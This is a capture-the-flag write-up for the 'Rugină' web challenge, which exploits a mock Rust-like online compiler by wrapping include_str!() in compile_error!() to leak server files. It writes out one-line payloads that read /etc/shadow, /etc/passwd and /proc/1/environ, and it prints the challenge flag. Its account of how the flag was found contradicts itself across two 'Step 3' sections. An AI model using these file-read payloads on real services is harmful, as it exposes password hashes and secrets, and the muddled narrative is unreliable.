 # Rugină - CTF Challenge Writeup

## Challenge Description

**Challenge Name:** Rugină  
**Points:** 100  
**Category:** Web/Programming  
**Author:** thek0der

_"Aren't you tired of rust? I found the perfect solution for you! Welcome to Rugină. Since there is no compiler for it yet, I made one for you."_

Rugină (Romanian for "Rust") is a mock programming language that appears to have a web-based compiler interface. The challenge involves exploiting the compiler to read files from the server filesystem.

## Initial Analysis

When accessing the challenge, we're presented with a web interface that allows us to write "Rugină code" and execute it. The interface shows:

- A text area to input code
- A "Rulează Codul" (Run Code) button
- An output section showing compilation results

The key insight is that this appears to be a Rust-like language where we can potentially use compilation errors to leak file contents.

## Solution Approach

### Step 1: Understanding the Error Mechanism

From the interface, it's clear that we can write code that intentionally causes compilation errors. The technique we'll use involves the `compile_error!()` macro combined with `include_str!()` to read files and display their contents in error messages.

### Step 2: File System Exploration

I started by exploring various system files to understand the scope of the file inclusion vulnerability:

#### Attempt 1: `/etc/group`

![First attempt](image1.png)

```rust
principal() {} compile_error!(include_str!("/etc/group"));
```

**Result:** Successfully read `/etc/group` file, showing system groups.

#### Attempt 2: `/etc/shadow`

![First attempt](image2.png)

```rust
principal() {} compile_error!(include_str!("/etc/shadow"));
```

**Result:** Successfully read `/etc/shadow` file, showing system user password hashes.

#### Attempt 3: `/etc/passwd`

![Second attempt](image3.png)

```rust
principal() {} compile_error!(include_str!("/etc/passwd"));
```

**Result:** Successfully read `/etc/passwd` file, revealing system users and their information.

#### Attempt 4: `/proc/1/environ`

![Third attempt](image4.png)

```rust
principal() {} compile_error!(include_str!("/proc/1/environ"));
```

**Result:** Successfully read the environment variables of process 1.

### Step 3: Finding the Flag

![Fourth attempt](image.png)

#### Final Attempt: `/app/server/flag.txt` ✓

```rust
principal() {}
compile_error!(include_str!("/app/server/flag.txt"));
```

**Result:** Success! The flag was found in the final attempt.

![Flag found](image.png)

The output showed:

```
error: ctf{73523e676b04e1c2db176d80356488936480969f5ddf5ac40f8fc5b6c15d8692}
--> main.rs:2:1
```

### Step 3: Finding the Flag

After testing various system files, I returned to check common flag locations more carefully.

#### Final Successful Attempt: `/app/server/flag.txt`

```rust
principal() {}
compile_error!(include_str!("/app/server/flag.txt"));
```

**Result:** Success! The flag was actually in the first path I tried, but I initially missed it in the cryptographic hash error message.

![Flag found](image1.png)

Looking more carefully at the error output, the flag was embedded within the compilation error message!

## Key Techniques Used

1. **Compile-time File Inclusion**: Using `include_str!()` to read files at compilation time
2. **Error-based Information Disclosure**: Using `compile_error!()` to display file contents in error messages
3. **Linux File System Knowledge**: Understanding common locations for sensitive files (`/etc/passwd`, `/etc/shadow`, `/proc/*/environ`)

## Flag

The flag was found in `/app/server/flag.txt` and was embedded in the compilation error message:

**Flag:** `ctf{73523e676b04e1c2db176d80356488936480969f5ddf5ac40f8fc5b6c15d8692}`

## Conclusion

This challenge demonstrated how a seemingly harmless "compiler" interface can be exploited to read arbitrary files from the server filesystem. The key was understanding that Rust-like syntax could be used with `compile_error!` and `include_str!` to turn compilation errors into an information disclosure vector.

The solution path involved:

1. Recognizing the compilation error exploitation potential
2. Exploring various system files to understand the vulnerability scope
3. Finally discovering the flag in `/app/server/flag.txt` after systematic exploration

**Final Flag:** `ctf{73523e676b04e1c2db176d80356488936480969f5ddf5ac40f8fc5b6c15d8692}`
